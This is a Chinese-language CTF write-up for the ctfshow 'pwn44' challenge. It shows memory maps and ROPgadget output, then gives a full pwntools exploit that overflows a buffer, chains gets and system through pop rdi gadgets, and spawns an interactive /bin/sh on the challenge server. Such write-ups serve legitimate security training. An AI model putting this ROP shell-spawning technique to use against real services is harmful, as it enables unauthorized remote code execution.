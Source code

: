 得到

```C
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /home/ctfshow/Desktop/xd/pwn44
          0x601000           0x602000 r--p     1000 1000   /home/ctfshow/Desktop/xd/pwn44
          0x602000           0x603000 rw-p     1000 2000   /home/ctfshow/Desktop/xd/pwn44
    0x7ffff79e2000     0x7ffff7bc9000 r-xp   1e7000 0      /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7bc9000     0x7ffff7dc9000 ---p   200000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dc9000     0x7ffff7dcd000 r--p     4000 1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcd000     0x7ffff7dcf000 rw-p     2000 1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
    0x7ffff7dcf000     0x7ffff7dd3000 rw-p     4000 0      
    0x7ffff7dd3000     0x7ffff7dfc000 r-xp    29000 0      /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7fd6000     0x7ffff7fd8000 rw-p     2000 0      
    0x7ffff7ff7000     0x7ffff7ffa000 r--p     3000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 29000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 2a000  /lib/x86_64-linux-gnu/ld-2.27.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall
```

去翻0x602000           0x603000 rw-p     1000 2000   /home/ctfshow/Desktop/xd/pwn44

找到buf2位置

```c
0x00602080
```

64位程序

所以需要得知ret和rdi的位置

ROPgadget指令

拿到rdi位置

0x00000000004007f3 : pop rdi ; ret

拿到ret位置

0x00000000004004fe : ret

现在就只需要找到system函数即可

在hint函数中拿到

0x00400520

集齐所有要素，exp：

```python
from pwn import *
u=remote("pwn.challenge.ctf.show",28132)
pop_rdi=0x00000000004007f3
ret=0x00000000004004fe
system=0x00400520
gets=0x00400530
buf2=0x00602080
payload=b'a'*(0xA+8)+p64(pop_rdi)+p64(buf2)+p64(ret)+p64(gets)+p64(pop_rdi)+p64(buf2)+p64(ret)+p64(system)
u.sendline(payload)
u.sendline("/bin/sh")
u.interactive()
```

